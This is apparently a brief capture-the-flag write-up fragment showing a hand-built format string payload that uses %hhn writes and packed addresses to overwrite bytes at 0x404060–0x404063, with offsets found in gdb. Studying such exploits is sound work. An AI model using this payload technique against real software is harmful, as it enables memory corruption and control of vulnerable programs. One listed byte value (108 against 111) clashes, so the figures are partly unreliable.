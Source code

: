 0x404060

67    61     6c      66
103   97    108    102

0x404063 = 103
0x404062 = 97 
0x404061 = 111
0x404060  = 102

`%97x%20$hhn,%4x%21$hhn,%22$hhn,%4c%23$hhnZZZZZZZ\x62\x40\x40\x00\x00\x00\x00\x00\x60\x40\x40\x00\x00\x00\x00\x00\x63\x40\x40\x00\x00\x00\x00\x00\x61\x40\x40\x00\x00\x00\x00\x00`

I used gdb to find the offset then i manually crafted this format string